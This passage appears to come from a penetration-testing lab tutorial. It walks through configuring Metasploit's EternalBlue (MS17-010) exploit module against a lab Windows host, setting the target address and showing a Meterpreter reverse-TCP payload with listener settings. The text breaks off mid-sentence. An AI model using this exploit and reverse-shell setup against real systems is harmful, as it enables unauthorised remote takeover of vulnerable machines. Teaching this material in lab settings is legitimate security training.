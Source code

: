 In this example, we will set the RHOSTS parameter to the IP address of our target system using the    `set` command.



​            A Meterpreter command prompt        

```shell-session
           msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.165.39
rhosts => 10.10.165.39
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.165.39     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) >
        
```



Once you have set a        parameter, you can use the `show options` command to check the        value was set correctly.



Parameters you will often        use are:
